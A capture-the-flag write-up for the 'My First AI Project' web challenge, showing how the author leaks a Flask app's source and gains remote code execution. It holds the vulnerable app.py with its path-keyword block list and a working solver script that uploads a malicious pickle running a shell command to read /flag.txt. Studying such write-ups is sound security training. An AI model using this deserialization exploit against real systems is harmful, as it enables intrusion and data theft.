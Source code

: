 # My First AI Project [4 Solves]

## Description

> Explore my beginner-friendly web UI for testing an AI project!
>
> `13.229.222.125:33425`

No attachment.

A challenge server will be prepared for each player.

## Flag

wgmy{66417f2572bbb1420dc4359a1ca4acd2}

## TL;DR

- RCE by Python Object Deserialization with Pickle

## Solution

I cannot view the source code since no attachment.
I will interact with the provided Web application to see its functionality.

![1.png](img/1.png)

![upload_dataset.png](img/upload_dataset.png)

![load_model.png](img/load_model.png)

The Upload Dataset button was not usable from the UI.
With the Load Model button, I could confirm the file existence.

Clicking on the gear icon led to URL path `/settings`.

![settings.png](img/settings.png)

![settings2.png](img/settings2.png)

By removing one character from the default display /app/uploads/pickled/, files were revealed.
Directory listing is possible.
As there is a directory named `pickled`, I guessed that this challenge is to use Python Deserialization.

At a glance, the following files were found:

```text
/app/uploads/pickled/
8_10_2023.pkl

/app/uploads/
picked

/app
uploads
requirements.txt
app.py
static
templates

/
etc
mnt
root
...
app
.dockerenv
entrypoint.sh
flag.txt
```

The flag was located at /flag.txt.
It seems that the source code is in /app/app.py.

![settings_edit.png](img/settings_edit.png)

Pressing the Edit button with `/app` entered, the ROOT DIRECTORY was updated.

![load_mode_app.py.png](img/load_mode_app.py.png)

Returning to the URL path `/` again and entering app.py displayed that the file exists.
Since the ROOT DIRECTORY was changed to `/app`, it seems that `/app/app.py` is visible.
After submitting, I was able to retrieve `app.py`.

<details><summary>app.py</summary>

```python
from flask import Flask, render_template, request, url_for, jsonify
from werkzeug.utils import secure_filename
import pandas as pd
from datetime import datetime
import numpy as np
import os, pickle, base64, time, string, random

app = Flask(__name__)
app.secret_key = os.urandom(24)

ROOT_DIR = "/app/uploads/pickled/"


@app.route("/")
def index():
    return render_template("index.html")


@app.route("/check", methods=["GET"])
def check_dir():
    PATH_DATASET = request.args.get("filePath")
    if os.path.exists(ROOT_DIR + PATH_DATASET):
        return ["Exists"]
    else:
        return ["Not Exists"]


@app.route("/settings", methods=["GET", "POST"])
def settings():
    global ROOT_DIR
    if request.method == "POST":
        ROOT_DIR = request.values.get("rootDirectory")
        return jsonify({"message": "Root directory updated successfully"})

    return render_template("settings.html", root_dir=ROOT_DIR)


def list_subdirectories(input_value):
    try:
        subdirectories = os.listdir(input_value)
        return subdirectories
    except:
        return []


@app.route("/listsubDir", methods=["POST"])
def list_sub_dir():
    input_value = request.form.get("input")
    subdirectories = list_subdirectories(input_value)

    preview_html = "<pre>"
    for subdir in subdirectories:
        preview_html += f"{subdir}\n"
    preview_html += "</pre>"

    if len(subdirectories) != 0:
        return jsonify({"preview": preview_html})
    else:
        return jsonify(
            {"preview": f"cannot access '{input_value}': No such file or directory"}
        )


# Not ready yet
@app.route("/uploads", methods=["POST"])
def uploads():
    if request.method == "POST":
        f = request.files["dataset"]
        for file in os.scandir(os.path.join(app.root_path, "uploads")):
            if file.name.endswith(".csv"):
                os.unlink(file.path)
        if not f.filename.endswith(".csv"):
            return "Failed to upload, ensure the dataset ends with .csv"
        now = datetime.now()
        files = (
            "".join(random.choices(string.ascii_uppercase, k=5))
            + "_"
            + now.strftime("%d_%m_%Y")
        )
        filename = files + ".csv"
        pathfile = os.path.join(app.root_path, "uploads", secure_filename(filename))
        f.save(pathfile)
        time.sleep(1)  # Ensure file uploaded successfully
        uploaded_dataset = pd.read_csv(pathfile)
        try:
            X = uploaded_data[["X", "Y"]]
            Y = uploaded_data["Target"]

            model = LinearRegression()
            model.fit(X, Y)

            with open("uploads/pickled/" + files + ".pkl", "wb") as model_file:
                pickle.dump(model, model_file)
            return "dataset uploaded successfully"
        except:
            return "dataset failed to upload"


def waf(filenames):
    blocked = [
        "..",
        "...",
        "/proc/self",
        "etc",
        "flag",
        "flag.txt",
        "var",
        "usr",
        "bin",
    ]
    for items in blocked:
        if items in filenames:
            return True
    return False


@app.route("/loadModel", methods=["POST"])
def load_model():
    if request.method == "POST":
        filenames = ROOT_DIR + request.form["filePath"]
        if waf(filenames):
            return "Access Denied"
        try:
            with open(filenames, "rb") as model_file:
                loaded_model = np.load(model_file, allow_pickle=True)

            new_data = np.array([[4, 5], [5, 6]])
            predictions = loaded_model.predict(new_data)
            return "Data = %s Predictions for New Data: %s" % (
                str(new_data),
                str(predictions),
            )
        except:
            return (
                "Failed to load model. Ensure you give pickle data.<br><br>Preview:<br><br><pre>"
                + open(filenames, "rb").read().decode()
                + "</pre>"
            )


if __name__ == "__main__":
    app.run(debug=False, host="0.0.0.0")
```

</details>

Taking a look at this code in detail.

```python
@app.route("/uploads", methods=["POST"])
def uploads():
    if request.method == "POST":
        f = request.files["dataset"]
        for file in os.scandir(os.path.join(app.root_path, "uploads")):
            if file.name.endswith(".csv"):
                os.unlink(file.path)
        if not f.filename.endswith(".csv"):
            return "Failed to upload, ensure the dataset ends with .csv"
        now = datetime.now()
        files = (
            "".join(random.choices(string.ascii_uppercase, k=5))
            + "_"
            + now.strftime("%d_%m_%Y")
        )
        filename = files + ".csv"
        pathfile = os.path.join(app.root_path, "uploads", secure_filename(filename))
        f.save(pathfile)
```

[POST] /uploads: dataset parameter.
It has a file upload functinality and save its content to /app/XXXXX_dd_mm_YYYY.csv.
The file name is not controllable.

Also, it retrieve app.root_path from Flask's app and saves files underneath it.
Therefore, unless I can control app.root_path, I cannot control the saving directory.

```python
def waf(filenames):
    blocked = [
        "..",
        "...",
        "/proc/self",
        "etc",
        "flag",
        "flag.txt",
        "var",
        "usr",
        "bin",
    ]
    for items in blocked:
        if items in filenames:
            return True
    return False


@app.route("/loadModel", methods=["POST"])
def load_model():
    if request.method == "POST":
        filenames = ROOT_DIR + request.form["filePath"]
        if waf(filenames):
            return "Access Denied"
        try:
            with open(filenames, "rb") as model_file:
                loaded_model = np.load(model_file, allow_pickle=True)
```

[POST] /loadModel: filePath parameter.
It reads the file from the path `ROOT_DIR + filePath` and executes `np.load(model_file, allow_pickle=True)`.
Due to filtering in the `waf` function, reading files from the parent directory using `..` seems difficult.
If I can control `ROOT_DIR`, it appears possible to load the saved Pickled objects.

```python
@app.route("/settings", methods=["GET", "POST"])
def settings():
    global ROOT_DIR
    if request.method == "POST":
        ROOT_DIR = request.values.get("rootDirectory")
        return jsonify({"message": "Root directory updated successfully"})

    return render_template("settings.html", root_dir=ROOT_DIR)
```

[POST] /settings: `ROOT_DIR` is controllable.

From the above, I can RCE by following the steps:

1. Upload a pickled object and save it to /app/uploads/.
1. Retrieve the saved file name (*).
1. Set ROOT_DIR to /app.
1. loadModel with uploads/(*).

I can read /flag.txt, save it as a file in /tmp/, and then retrieve the flag through directory listing.

solver.py

```python
import os
import pickle
import requests


BASE_URL = "http://13.229.222.125:33429"
s = requests.Session()
# s.proxies = {"http": "http://127.0.0.1:8080"}


class RCE:
    def __reduce__(self):
        code = "touch /tmp/$(cat /flag.txt)"
        return os.system, (code,)


if __name__ == "__main__":
    # upload pickled file
    pickled = pickle.dumps(RCE())
    s.post(f"{BASE_URL}/uploads", files={"dataset": ("tmp.csv", pickled)})

    # get pickled csv filename
    res = s.post(f"{BASE_URL}/listsubDir", data={"input": "/app/uploads/"})
    pickled_csvfile = res.json()["preview"].split()[1]

    # set ROOT_DIR
    s.post(f"{BASE_URL}/settings", data={"rootDirectory": "/app/"})

    # load picked csv
    s.post(f"{BASE_URL}/loadModel", data={"filePath": f"uploads/{pickled_csvfile}"})

    # get flag
    res = s.post(f"{BASE_URL}/listsubDir", data={"input": "/tmp/"})
    print(res.json()["preview"])
```

Result:

```console
$ python3 solver.py
<pre>wgmy{66417f2572bbb1420dc4359a1ca4acd2}
tmp35r0vu6ncacert.pem
</pre>
```
